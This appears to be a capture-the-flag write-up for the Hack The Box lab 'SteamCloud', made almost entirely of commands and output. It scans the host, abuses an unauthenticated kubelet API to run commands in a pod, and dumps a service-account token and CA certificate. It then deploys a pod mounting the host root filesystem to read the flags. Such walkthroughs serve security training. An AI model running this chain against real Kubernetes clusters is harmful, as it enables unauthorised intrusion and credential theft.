

SteamCloud
└─$ sudo nmap 10.10.11.133 -p- --min-rate=10000 -T4 -Pn
PORT STATE SERVICE
22/tcp open ssh
2379/tcp open etcd-client
2380/tcp open etcd-server
8443/tcp open https-alt
10249/tcp open unknown
10250/tcp open unknown
10256/tcp open unknown
└─$ sudo nmap 10.10.11.133 -p 22,2379,2380,8443,10249,10250,10256 --min-rate=10000 -T4 -Pn -sCV
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 fc:fb:90:ee:7c:73:a1:d4:bf:87:f8:71:e8:44:c6:3c (RSA)
| 256 46:83:2b:1b:01:db:71:64:6a:3e:27:cb:53:6f:81:a1 (ECDSA)
|_ 256 1d:8d:d3:41:f3:ff:a4:37:e8:ac:78:08:89:c2:e3:c5 (ED25519)
2379/tcp open ssl/etcd-client?
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ h2
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2024-02-21T07:18:56
|_Not valid after: 2025-02-20T07:18:56
2380/tcp open ssl/etcd-server?
| tls-alpn:
|_ h2
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2024-02-21T07:18:56
|_Not valid after: 2025-02-20T07:18:57
|_ssl-date: TLS randomness does not represent time
8443/tcp open ssl/https-alt
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:localhost, IP Address:10.10.11.133, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
| Not valid before: 2024-02-20T07:18:54
|_Not valid after: 2027-02-20T07:18:54
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (application/json).
| tls-alpn:
| h2
|_ http/1.1
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 403 Forbidden
| Audit-Id: a090b496-a021-4484-8ec8-ab726ca9c2fd
| Cache-Control: no-cache, private
| Content-Type: application/json
| X-Content-Type-Options: nosniff
| X-Kubernetes-Pf-Flowschema-Uid: e287085f-2ac9-4960-9104-714a75bececb
| X-Kubernetes-Pf-Prioritylevel-Uid: bb4b8c06-406d-4716-aab3-75211d4abf5b
| Date: Wed, 21 Feb 2024 07:27:47 GMT
| Content-Length: 212
| {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"","reason":"Forbidden","details":{},"code":403}
| GetRequest:
| HTTP/1.0 403 Forbidden
| Audit-Id: df87bc9b-49b9-47aa-9c22-437d2f7dd27d
| Cache-Control: no-cache, private
| Content-Type: application/json
| X-Content-Type-Options: nosniff
| X-Kubernetes-Pf-Flowschema-Uid: e287085f-2ac9-4960-9104-714a75bececb
| X-Kubernetes-Pf-Prioritylevel-Uid: bb4b8c06-406d-4716-aab3-75211d4abf5b
| Date: Wed, 21 Feb 2024 07:27:46 GMT
| Content-Length: 185
| {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
| HTTPOptions:
| HTTP/1.0 403 Forbidden
| Audit-Id: b612ac2d-ffe4-477e-9ca2-a5440c5e9151
| Cache-Control: no-cache, private
| Content-Type: application/json
| X-Content-Type-Options: nosniff
| X-Kubernetes-Pf-Flowschema-Uid: e287085f-2ac9-4960-9104-714a75bececb
| X-Kubernetes-Pf-Prioritylevel-Uid: bb4b8c06-406d-4716-aab3-75211d4abf5b
| Date: Wed, 21 Feb 2024 07:27:46 GMT
| Content-Length: 189
|_ {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
10249/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
10250/tcp open ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| ssl-cert: Subject: commonName=steamcloud@1708499939
| Subject Alternative Name: DNS:steamcloud
| Not valid before: 2024-02-21T06:18:59
|_Not valid after: 2025-02-20T06:18:59
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| tls-alpn:
| h2
|_ http/1.1
10256/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
1 service unrecognized despite returning data.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
└─$ curl -k https://10.10.11.133:8443/ | jq
{
"kind": "Status",
"apiVersion": "v1",
"metadata": {},
"status": "Failure",
"message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
"reason": "Forbidden",
"details": {},
"code": 403
}
Pentesting Kubernetes Services
kubeletctl:A client for kubelet
└─$ ~/HTB/tools/kubeletctl_linux_amd64 pods --server 10.10.11.133
┌────────────────────────────────────────────────────────────────────────────────┐
│ Pods from Kubelet │
├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
│ │ POD │ NAMESPACE │ CONTAINERS │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 1 │ kube-controller-manager-steamcloud │ kube-system │ kube-controller-manager │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 2 │ kube-scheduler-steamcloud │ kube-system │ kube-scheduler │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 3 │ etcd-steamcloud │ kube-system │ etcd │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 4 │ kube-apiserver-steamcloud │ kube-system │ kube-apiserver │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 5 │ storage-provisioner │ kube-system │ storage-provisioner │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 6 │ kube-proxy-k8tsh │ kube-system │ kube-proxy │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 7 │ coredns-78fcd69978-xgmt7 │ kube-system │ coredns │
│ │ │ │ │
├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
│ 8 │ nginx │ default │ nginx │
│ │ │ │ │
└───┴────────────────────────────────────┴─────────────┴─────────────────────────┘
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 scan --help
Description:
Scans for nodes with opened kubelet's API.
Examples:
// It will find all nodes that have opened kubelet API
kubeletctl scan --cidr "123.123.123.123/24"
Usage:
kubeletctl scan [flags]
kubeletctl scan [command]
Available Commands:
rce Scans for nodes with opened kubelet API
token Scans for for all the tokens in a given Node.
Flags:
-h, --help help for scan
Global Flags:
--cacert string CA certificate (example: /etc/kubernetes/pki/ca.crt )
--cert string Private key (example: /var/lib/kubelet/pki/kubelet-client-current.pem)
--cidr string A network of IP addresses (Example: x.x.x.x/24)
-k, --config string KubeConfig file
-c, --container string Container name
--http Use HTTP (default is HTTPS)
-i, --ignoreconfig Ignore the default KUBECONFIG environment variable or location ~/.kube
--key string Digital certificate (example: /var/lib/kubelet/pki/kubelet-client-current.pem)
-n, --namespace string pod namespace
-p, --pod string Pod name
--port string Kubelet's port, default is 10250
-r, --raw Prints raw data
-s, --server string Server address (format: x.x.x.x. For Example: 123.123.123.123)
-t, --token string Service account Token (JWT) to insert
-f, --token-file string Service account Token (JWT) file path
-u, --uid string Pod UID
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 scan rce
┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│ Node with pods vulnerable to RCE │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│ │ NODE IP │ PODS │ NAMESPACE │ CONTAINERS │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ │ │ │ │ │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.10.11.133 │ kube-apiserver-steamcloud │ kube-system │ kube-apiserver │ - │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │ │ storage-provisioner │ kube-system │ storage-provisioner │ - │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 3 │ │ kube-proxy-k8tsh │ kube-system │ kube-proxy │ + │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 4 │ │ coredns-78fcd69978-xgmt7 │ kube-system │ coredns │ - │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 5 │ │ nginx │ default │ nginx │ + │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 6 │ │ kube-controller-manager-steamcloud │ kube-system │ kube-controller-manager │ - │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 7 │ │ kube-scheduler-steamcloud │ kube-system │ kube-scheduler │ - │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 8 │ │ etcd-steamcloud │ kube-system │ etcd │ - │
└───┴──────────────┴────────────────────────────────────┴─────────────┴─────────────────────────┴─────┘
nginx and kube-proxy-k8tsh pods can execute code remotely, but kube-proxy-k8tsh is a pod for proxy.
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 exec 'ls -la /var/run/secrets/kubernetes.io/serviceaccount/' -p nginx -c nginx
total 4
drwxrwxrwt 3 root root 140 Feb 21 07:20 .
drwxr-xr-x 3 root root 4096 Feb 21 07:20 ..
drwxr-xr-x 2 root root 100 Feb 21 07:20 ..2024_02_21_07_20_02.874347555
lrwxrwxrwx 1 root root 31 Feb 21 07:20 ..data -> ..2024_02_21_07_20_02.874347555
lrwxrwxrwx 1 root root 13 Feb 21 07:20 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root 16 Feb 21 07:20 namespace -> ..data/namespace
lrwxrwxrwx 1 root root 12 Feb 21 07:20 token -> ..data/token
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 exec 'cat /var/run/secrets/kubernetes.io/serviceaccount/token' -p nginx -c nginx
eyJhbGciOiJSUzI1NiIsImtpZCI6IkNUUVE2ZFV6NXNoZEtWTGdYRDNQRU1FWXBnQ2RuQnBhZUo4YkNhelNrQVEifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzQwMDM2MDAyLCJpYXQiOjE3MDg1MDAwMDIsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjJiMTk1Yjk2LWNiMTEtNDIyZi1iZDIwLTdlYTcyOTE3MmE5YSJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6ImU5NGVhYjcwLWJkMDctNDkyMS05YWE2LWRlMWUyZDYyNGIxMSJ9LCJ3YXJuYWZ0ZXIiOjE3MDg1MDM2MDl9LCJuYmYiOjE3MDg1MDAwMDIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.nNVM9EnSiwvvFEB5BM9T5IDpn3aFagsOMoWt_xVQRSfyHNmereRX_g8zgKBZg920LI-M9u-UgORmY1VnfboOUfh-J_kykUSgnOA1hBA9suStwGPZxBEVU4tWwQ7lDZWLKFNdLsizovMo4wg90M3JdkQCl5q-MjVVAjwLLRwoLs2_3W5YcVqzFvKUeBx2300zbFmhgi6WWZIt6QLI0nw4rXo7zMTzgC4-kptvxX_HYFGxzR9eti-xV0QtAdH5uaaSKtUP8ZVRF4j4mu3ctPuImybkKYS_5_5kif_YQ0uPN63Yj5_9BTr1KISYBGIYGz6gC8vV2bwXr1qd6B-CiPiWAw
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 exec 'cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt' -p nginx -c nginx
-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
a3ViZUNBMB4XDTIxMTEyOTEyMTY1NVoXDTMxMTEyODEyMTY1NVowFTETMBEGA1UE
AxMKbWluaWt1YmVDQTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAOoa
YRSqoSUfHaMBK44xXLLuFXNELhJrC/9O0R2Gpt8DuBNIW5ve+mgNxbOLTofhgQ0M
HLPTTxnfZ5VaavDH2GHiFrtfUWD/g7HA8aXn7cOCNxdf1k7M0X0QjPRB3Ug2cID7
deqATtnjZaXTk0VUyUp5Tq3vmwhVkPXDtROc7QaTR/AUeR1oxO9+mPo3ry6S2xqG
VeeRhpK6Ma3FpJB3oN0Kz5e6areAOpBP5cVFd68/Np3aecCLrxf2Qdz/d9Bpisll
hnRBjBwFDdzQVeIJRKhSAhczDbKP64bNi2K1ZU95k5YkodSgXyZmmkfgYORyg99o
1pRrbLrfNk6DE5S9VSUCAwEAAaNhMF8wDgYDVR0PAQH/BAQDAgKkMB0GA1UdJQQW
MBQGCCsGAQUFBwMCBggrBgEFBQcDATAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQW
BBSpRKCEKbVtRsYEGRwyaVeonBdMCjANBgkqhkiG9w0BAQsFAAOCAQEA0jqg5pUm
lt1jIeLkYT1E6C5xykW0X8mOWzmok17rSMA2GYISqdbRcw72aocvdGJ2Z78X/HyO
DGSCkKaFqJ9+tvt1tRCZZS3hiI+sp4Tru5FttsGy1bV5sa+w/+2mJJzTjBElMJ/+
9mGEdIpuHqZ15HHYeZ83SQWcj0H0lZGpSriHbfxAIlgRvtYBfnciP6Wgcy+YuU/D
xpCJgRAw0IUgK74EdYNZAkrWuSOA0Ua8KiKuhklyZv38Jib3FvAo4JrBXlSjW/R0
JWSyodQkEF60Xh7yd2lRFhtyE8J+h1HeTz4FpDJ7MuvfXfoXxSDQOYNQu09iFiMz
kf2eZIBNMp0TFg==
-----END CERTIFICATE-----
└─$ sudo kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 auth can-i --list
Resources Non-Resource URLs Resource Names Verbs
selfsubjectaccessreviews.authorization.k8s.io [] [] [create]
selfsubjectrulesreviews.authorization.k8s.io [] [] [create]
pods [] [] [get create list]
[/.well-known/openid-configuration] [] [get]
[/api/*] [] [get]
[/api] [] [get]
[/apis/*] [] [get]
[/apis] [] [get]
[/healthz] [] [get]
[/healthz] [] [get]
[/livez] [] [get]
[/livez] [] [get]
[/openapi/*] [] [get]
[/openapi] [] [get]
[/openid/v1/jwks] [] [get]
[/readyz] [] [get]
[/readyz] [] [get]
[/version/] [] [get]
[/version/] [] [get]
[/version] [] [get]
[/version] [] [get]
.yaml file used to deploy a new pod
apiVersion: v1
kind: Pod
metadata:
name: nginxt
namespace: default
spec:
containers:
- name: nginxt
image: nginx:1.14.2
volumeMounts:
- mountPath: /root
name: mount-root-into-mnt
volumes:
- name: mount-root-into-mnt
hostPath:
path: /
automountServiceAccountToken: true
hostNetwork: true
└─$ sudo kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 apply -f deploy.yaml
pod/nginxt created
└─$ sudo kubectl --token=$token --certificate-authority=ca.crt --server=https://10.10.11.133:8443 get pods
NAME READY STATUS RESTARTS AGE
nginx 1/1 Running 0 73m
nginxt 1/1 Running 0 59s
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 exec 'ls /root' -p nginxt -c nginxt

└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 exec 'cat /root/home/user/user.txt' -p nginxt -c nginxt
└─$ ~/HTB/tools/kubeletctl_linux_amd64 --server 10.10.11.133 exec 'cat /root/root/root.txt' -p nginxt -c nginxt